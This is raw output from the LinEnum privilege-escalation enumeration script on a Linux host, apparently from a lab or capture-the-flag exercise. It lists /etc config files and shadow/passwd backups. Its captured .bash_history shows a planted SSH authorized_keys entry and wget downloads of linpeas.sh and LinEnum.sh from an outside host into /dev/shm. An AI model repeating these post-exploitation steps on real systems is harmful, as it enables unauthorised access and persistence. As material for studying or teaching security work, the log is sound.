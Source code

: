 [-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[00;31m[-] All *.conf files in /etc (recursive 1 level):[00m
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 3059 Mar 11  2018 /etc/sysctl.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 94 Mar 11  2018 /etc/host.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 350 Mar  8  2018 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 3028 Mar  8  2018 /etc/adduser.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 144 Mar  8  2018 /etc/kernel-img.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 155 Mar  8  2018 /etc/e2fsck.conf
-rw-r--r-- 1 root root 6488 Mar  8  2018 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf


[00;31m[-] Current user's history files:[00m
-rw------- 1 baksteen users 155 Nov 20 02:53 /home/baksteen/.bash_history


[00;31m[-] Location and contents (if accessible) of .bash_history file(s):[00m
/home/baksteen/.bash_history

mkdir .ssh
nano .ssh/authorized_keys
exit
cd /dev/shm
ls
wget
wget http://10.6.18.190:8000/linpeas.sh
wget http://10.6.18.190:8000/LinEnum.sh
chmod 777 *


[00;31m[-] Location and Permissions (if accessible) of .bak file(s):[00m
-rw------- 1 root shadow 860 Mar  9  2018 /var/backups/gshadow.bak
-rw------- 1 root root 1028 Mar  9  2018 /var/backups/group.bak
-rw------- 1 root root 1989 Mar  8  2018 /var/backups/passwd.bak
-rw------- 1 root shadow 1979 Mar  8  2018 /var/backups/shadow.bak


[00;31m[-] Any interesting mail in /var/mail:[00m
total 8
drwxrwsrwx  2 mail mail 4096 Mar  9  2018 .
drwxr-xr-x 12 root root 4096 Mar  8  2018 ..


[00;33m### SCAN COMPLETE ####################################[00m
